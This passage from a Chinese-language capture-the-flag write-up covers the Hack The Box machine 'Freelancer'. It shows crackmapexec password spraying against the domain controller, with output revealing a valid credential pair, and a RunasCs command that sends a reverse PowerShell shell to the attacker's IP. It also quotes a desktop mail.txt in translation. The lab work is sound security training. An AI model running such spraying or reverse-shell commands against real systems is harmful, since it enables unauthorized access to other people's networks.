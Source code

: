 用这两个密码和 Users 文件夹下的用户开爆

```bash
$ craccrackmapexec smb 10.10.11.5 -u user.txt -p passwd.txt
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\Administrator:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE

SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE ILURE
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lorra199:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lorra199:IL0v3ErenY3ager STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [-] freelancer.htb\mikasaAckerman:t3mp0r@ryS@PWD STATUS_LOGON_FAILURE
SMB         10.10.11.5      445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
```

爆出来 mikasaAckerman/IL0v3ErenY3ager，然后传 [RunasCs](https://github.com/antonioCoco/RunasCs) 横向移动，执行

```shell
./RunasCs.exe mikasaAckerman IL0v3ErenY3ager powershell -r 10.10.16.18:55556
```

把 mikasaAckerman 的 shell 弹出来，在 Desktop 下找到第一个 flag。
这里不知道为啥用 evil-winrm 连不上，可能是因为权限问题。

system flag 涉及域渗透，一点不会。
桌面还有个 `mail.txt`，内容如下：

```plain
Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```

翻译一下就是

```plain
你好，米卡萨，

我再次尝试与丽莎·卡扎诺夫合作，寻求她的帮助以解决“DATACENTER-2019”电脑上的蓝屏死机（BSOD）问题。正如你所知，这个问题在我们安装了 SQL Server 2019 的新更新后开始出现。

我尝试了你在上封邮件中提供的解决方案，但不幸的是，没有任何改进。每当我们尝试与安装的实例建立远程 SQL 连接时，服务器的 CPU 就会开始过热，RAM 使用量不断增加，直到出现蓝屏死机，迫使服务器重启。

然而，丽莎要求我在数据中心生成一个完整的内存转储，并将其发送给你以便进一步协助解决问题。

此致

最佳问候
```
